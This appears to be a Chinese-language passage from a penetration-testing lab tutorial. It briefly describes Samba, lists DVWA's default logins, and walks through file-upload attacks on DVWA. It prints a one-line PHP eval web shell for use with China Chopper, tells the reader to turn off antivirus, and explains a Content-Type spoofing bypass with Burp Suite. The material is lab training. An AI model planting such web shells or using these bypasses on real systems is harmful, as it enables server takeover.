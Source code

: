 > ==Samba==

```txt
samba （软件） 语音 编辑 讨论 上传视频
Samba是在Linux和UNIX系统上实现SMB协议的一个免费软件，由服务器及客户端程序构成。SMB（Server Messages Block，信息服务块）是一种在局域网上共享文件和打印机的一种通信协议，它为局域网内的不同计算机之间提供文件及打印机等资源的共享服务。SMB协议是客户机/服务器型协议，客户机通过该协议可以访问服务器上的共享文件系统、打印机及其他资源。通过设置“NetBIOS over TCP/IP”使得Samba不但能与局域网络主机分享资源，还能与全世界的电脑分享资源。
```

> ==DVWA(主要靶机程序之一)==

```txt
DVWA默认的用户有5个，用户名密码如下（一个足以）：

admin/password

gordonb/abc123

1337/charley

pablo/letmein

smithy/password
```

## 2、文件上传漏洞渗透及防御

### 2.1、初级难度

```txt
低安全模式下，上传任意类型文件，对文件的限制不大
```

- 上传shell文件(截图中的也看成是php文件就好了，懒得重新截图了=_=)

  ```php
  <?php @eval($_POST['chopper']);?>
  ```

 ![23](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210831190900.png)

- 上传完以后，就可以利用中国菜刀等软件(记得关闭杀软)，进行操作了

   ![image-20210831201036468](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210831201036.png)

### 2.2、中级难度

```txt
中安全模式下，绕过上传文件的类型
开启 BurpSuite ，设置代理地址（攻击机的地址）
修改浏览器代理，用 BurpSuite 实现拦截功能
在被拦截的数据中修改Content-Type的信息，改为 image/JPEG
```

首先，这种情况下，是无法直接上传php或者java的文件的，需要运用Burp Suite代理/拦截。然后再进行转发

